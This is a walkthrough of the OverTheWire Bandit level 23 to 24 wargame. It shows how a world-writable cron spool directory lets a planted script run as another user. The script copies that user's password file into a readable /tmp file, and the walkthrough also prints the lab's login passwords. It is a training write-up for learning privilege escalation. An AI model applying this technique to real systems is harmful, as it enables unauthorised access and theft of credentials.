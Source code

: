 # Bandit Level 23 → Level 24

Site: https://overthewire.org/wargames/bandit/bandit24.html
## Goal
> A program is running automatically at regular intervals from cron, the time-based job scheduler. 
> 
> Look in /etc/cron.d/ for the configuration and see what command is being executed.

## NOTE: 
> This level requires you to create your own first shell-script. 
> 
> This is a very big step and you should be proud of yourself when you beat this level!

## NOTE 2: 
> Keep in mind that your shell script is removed once executed, so you may want to keep a copy around… 

## Commands you may need to solve this level:
> cron, crontab, crontab(5) (use “man 5 crontab” to access this)

-----------------

> username: bandit23
>
> password: jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
>
> server: bandit.labs.overthewire.org
>
> port: 2220

ssh into the server:
```bash
ssh -l bandit23 bandit.labs.overthewire.org -p 2220
```

1. List the contents in `/etc/cron.d/`:
```bash
ls /etc/cron.d/
```
2. Noticed a file called `cronjob_bandit24`:
Contents:
```bash
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```
3. Attempted to read `/usr/bin/cronjob_bandit24.sh`:
Contents
```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
# Script Breakdown:
* The script gets the user running the script with `whoami`
* Changes directories to /var/spool/(output of the w`whoami` command)
* Iterates through all the files in the directory
* Skips over the `.` and `..` directories and grabs the owner for each file
* If the file is owned by `bandit23` execute the file and after 60 seconds kill the process and delete it

4. Lets see which user folders are in /var/spool and their priviliges:
```bash
ls -l /var/spool
```
Output:
```bash
drwxrwx-wx 73 root bandit24 4096 Jan 30 04:06 bandit24
```
5. The cron job runs as bandit24, and runs any script in /var/spool/bandit24 that is owned by bandit23.
6. Since /var/spool/bandit24 is writeable by anyone, lets make a script that when ran by bandit24 sends the bandit24 password to a file we made
```bash
nano /tmp/hhdir/test.sh 
chmod 777 /tmp/hhdir/test.sh
touch tmp/hhdir/pass.txt
chmod 666 /tmp/hhdir/pass.txt  
```
Script for test.sh:
```bash
#!/bin/bash
 
cat /etc/bandit_pass/bandit24 > /tmp/hhdir/pass.txt

```
Copy the script to `/var/spool/bandit24/test.sh` and wait for the password to be sent to `/tmp/hhdir/pass.txt` (at the beginning of the next minute)
>
Bandit24's password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
